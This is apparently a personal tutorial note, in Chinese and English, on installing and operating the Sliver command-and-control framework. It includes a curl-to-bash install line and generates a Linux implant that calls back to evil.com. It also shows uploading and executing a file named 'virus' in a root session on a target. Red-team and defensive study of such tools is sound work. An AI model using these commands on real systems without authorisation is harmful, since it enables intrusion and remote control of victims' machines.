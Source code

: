 Adversary Emulation Framework.

## 1. Install

安装

```
┌──(nemo@debian)-[~]
└─$ curl -fsSL https://github.com/jadensalas469466/script/raw/main/sliver_install.sh | bash
```

## 2. Usage

### 2.1. Server

> 用于与目标建立稳定连接

开机自启

```
┌──(nemo@debian)-[~]
└─$ sudo systemctl enable --now sliver.service
```

进入 Server

```
┌──(nemo@debian)-[~]
└─$ sliver-server
```

退出 Server

```
[server] sliver > exit
```

### 2.1.1. 连接 Client

开启 `31337` 端口

```
┌──(nemo@debian)-[~]
└─$ sudo ufw allow 31337
```

生成 Client 配置

```
[server] sliver > new-operator -n nemo -l evil.com -p 31337
```

开启多端控制

```
[server] sliver > multiplayer
```

查看已加入的控制器

```
[server] sliver > operators
```

### 2.1.2. 连接 Implant

开启 `65135` 端口

```
┌──(nemo@debian)-[~]
└─$ sudo ufw allow 65135
```

生成 Implant

```
[server] sliver > generate -o linux -m evil.com:65135
```

监听 Implant

```
[server] sliver > mtls -l 65135
```

查看监听任务

```
[server] sliver > jobs
```

等待目标执行 Implant 后查看会话

```
[server] sliver > sessions

 ID         Transport   Remote Address        Hostname   Username   Operating System   Health
========== =========== ===================== ========== ========== ================== =========
 685a7144   mtls        example.com:32804   morpheus   root       linux/amd64        [ALIVE]
```

进入会话

```
[server] sliver > use  685a7144
```

断开会话

```
[server] sliver (implant) > close
```

上传本地文件到目标

```
[server] sliver (implant) > upload ./virus ./path
```

添加执行权限

```
[server] sliver (implant) > chmod ./virus 755
```

执行程序

```
[server] sliver (implant) > execute ./virus
```

### 2.2. Client

> 用于在 Client 控制与 Server 建立连接的 Implant

导入 Client 配置文件

```
┌──(nemo@debian)-[~]
└─$ sliver-client import ~/.sliver-client/nemo_evil.com.cfg
```

运行 Client

```
┌──(nemo@debian)-[~]
└─$ sliver-client
```

查看已加入的控制器

```
[server] sliver > operators
```

退出 Client

```
sliver > exit
```

---

References

- [sliver](https://github.com/BishopFox/sliver)

